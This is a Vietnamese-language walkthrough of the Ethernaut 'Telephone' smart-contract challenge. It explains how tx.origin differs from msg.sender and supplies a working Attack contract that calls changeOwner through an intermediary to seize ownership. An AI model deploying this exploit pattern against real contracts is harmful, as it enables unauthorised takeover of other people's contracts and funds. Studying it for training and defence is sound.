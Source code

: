 # Level 4: Telephone
## ★☆☆☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
## Phân tích
- Ta thấy trong contract có tx.origin, vậy nó là gì và hoạt động ra sao ?
- Hiểu đơn giản về ``tx.origin`` là nếu bạn gọi function từ một contract A, trong function có có gọi function của contract B, thì tx.origin là địa chỉ của bạn còn msg.sender là contract A address.  

- Đây là một trong những lỗi bảo mật phổ biển của smart contract vì các dev thường hay nhầm lẫn giữa ``msg.sender`` và ``tx.origin``. Hậu quả của việc này thường là các cuộc phising attack.

## tx.origin và msg.sender

Hai biến này khá khác nhau, mặc dù cùng trả về address nhưng tx.origin sẽ trả về địa chỉ của địa chỉ tạo ra transaction còn msg.sender sẽ trả về địa chỉ gọi đến message đó.
> tx.origin (address): sender of the transaction (full call chain)

> msg.sender (address): sender of the message (current call)

![](https://miro.medium.com/v2/resize:fit:1200/1*Q_mcX4Po8JTKUS2yJhvcPQ.png)

Bạn có thể xem các global variable khác tại [đây](https://docs.soliditylang.org/en/v0.8.21/units-and-global-variables.html#block-and-transaction-properties)  
## Solution
**Target**: chiếm quyền owner của contract.  

- Compile và deploy contract này trên remix, sau đó gọi hàm ``claimOwwnership()``:  

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.6 <0.9.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
contract Attack {
    Telephone t;
   address my_addr = 0xee35AA525a1bc43aFb437C8F2b9a58B151A50e53;
   constructor(){
    t = Telephone(my_addr);
   }
   function claimOwnership() public {
      t.changeOwner(msg.sender);
   }

}
```
- Check lại owner:
```javascript
await contract.owner()
```
**Submit** -> Done

## Reference
https://medium.com/@natelapinski/the-difference-between-tx-origin-60737d3b3ab5


